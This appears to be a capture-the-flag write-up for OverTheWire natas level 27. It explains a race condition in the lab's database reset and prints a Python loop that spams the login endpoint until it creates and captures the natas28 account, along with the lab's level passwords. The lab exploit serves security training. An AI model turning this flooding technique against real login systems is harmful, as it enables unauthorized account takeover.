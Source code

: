 # [natas 27](http://natas27.natas.labs.overthewire.org)

    Username: natas27
    Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

I failed injecting a SQL on this level.
The trick to beating this level is in the comments at the top of the page.

    // database gets cleared every 5 min

We can do this by spamming login attempts to the server and if we post at the exact moment where the database gets cleared but the natas28 user is not automatically added yet, we can create our own natas28 user.
It seems the database clearing and creation of the natas28 user is not in one transaction but has some delay between them.
I will show a python script doing this.

    import requests
    while True:
        r = requests.get('http://natas27.natas.labs.overthewire.org/?username=natas28&password=', auth=('natas27', '55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ'))
        if 'Here' in r.text:
            print(r.text)
            break

Some minutes later, I get the password.

    JWwR438wkgTsNKBbcJoowyysdM82YjeF

